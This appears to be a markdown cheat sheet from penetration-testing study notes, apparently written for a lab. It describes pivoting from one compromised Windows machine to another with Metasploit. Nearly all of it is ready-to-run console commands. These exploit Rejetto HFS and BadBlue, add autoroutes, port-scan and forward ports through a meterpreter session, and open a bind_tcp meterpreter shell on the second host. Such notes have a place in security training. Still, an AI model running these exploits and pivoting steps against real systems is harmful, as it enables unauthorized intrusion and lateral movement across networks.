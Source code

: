 - Utilizing compromized host to move to other machines
### Steps
- 3 machines: 10.3.28.70 (accessible to attacker); 10.3.24.202 (accessible to 10.3.28.70)
- Gain access to the initial machine:
	```
	> use exploit/windows/http/rejetto_hfs_exec
	> set rhosts 10.3.28.70
	> run
	```
- Add a route, so that you can run commands that can go through this machine
	```
	meterpreter> sysinfo
	meterpreter> getuid
	meterpreter> ipconfig
	meterpreter> run autoroute -s 10.3.28.0/20 # subnet info from ipconfig
	```
- Run a scan against the other machine with the portscan module
	```
	search portscan
	use auxiliary/scanner/portscan/tcp
	set rhosts 10.3.24.202
	set ports 1-100
	run
	```
- Now you know which ports are open on the other target machine. So, the next task is to scan them. For this you create a port forwarding on the machine to which you have access in such a way that the traffic is forwarded from a port on attackers machine which is sent via this machine to the other target machine
	```
	sessions 1
	meterpreter> portfwd add -l 1234 -p 80 -r 10.3.24.202 # 1234 on attackers machine and 80 on the 24.202 machine
	```
- Run an nmap scan against your local port as it gets sent to the other machine
	```
	db_nmap -sV -p1234 localhost
	```
- Exploit it. Set the actual target IP as autoroute will handle that and make sure to change the payload to `bind_tcp` because you can't get a reverse tcp on your local machine in this case as there is no direct connectivity
	```
	use exploit/windows/http/badblue_passthru
	set rhosts 10.3.24.202
	set lport 4433
	set payload windows/meterpreter/bind_tcp
	run
```